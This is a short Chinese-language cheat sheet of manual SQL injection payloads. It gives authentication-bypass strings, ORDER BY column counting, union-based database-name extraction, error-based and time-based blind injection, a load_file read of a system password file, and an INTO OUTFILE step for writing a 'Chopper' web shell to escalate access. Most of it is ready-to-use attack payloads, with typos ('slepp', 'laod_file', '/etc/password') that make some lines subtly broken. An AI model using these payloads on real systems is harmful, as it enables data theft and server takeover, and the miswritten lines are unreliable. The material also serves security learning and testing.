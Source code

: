 ## 手工注入

有的时候自动化会被禁止使用，比如一些删除和插入，会导致数据库被破坏。

### 大佬文章推荐

[肖洋肖恩、](https://www.cnblogs.com/-mo-/p/12730682.html)

## 常用的 playload

### 注释

```sql
or 1=1--+
'or 1=1--+
"or 1=1--+
)or 1=1--+
')or 1=1--+
") or 1=1--+
"))or 1=1--+
--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
--+ SELECT * FROM users WHERE id=''or 1=1--+' LIMIT 0,1
```

### 联合注入

判断字段数目,`?id=1' order by 1 --+ `此时页面正常，
继续换更大的数字测试`?id=1' order by 10 --+` 此时页面返回错误，
更换小的数字测试`?id=1' order by 5 --+ `此时页面依然报错，
继续缩小数值测试`?id=1' order by 3 --+ `此时页面返回正常，
更换大的数字测试`?id=1' order by 4 --+` 此时页面返回错误，3 正常，4 错误，说明字段数目就是 3

```sql
?id=1' order by 4--+
```

拿到数据库名

```sql
?id=0' union select 1,2,3,database()--+
```

### 报错爆出信息

通过 id=-1 一个负数不存在的 id 值来触发报错

```sql
id=-1' UNION SELECT 1,2,3
```

通过 or 1=1 语句来触发报错

```sql
id=1' or 1=1 UNION SELECT 1,2,3
```

### 基于时间的盲注

```sql
1' and slepp(5) --'
--+ select first_name, last_name from dvwa.users where user_id='1' and sleep(5) --'
```

### 读取文件

```sql
=1' and 1=2 union select laod_file('/etc/password') #
```

### 文件写入

文件写入配合菜刀提权。

```sql
=1 and 1=2 union select '菜刀木马内容' into outfile '文件目录+文件名'
```

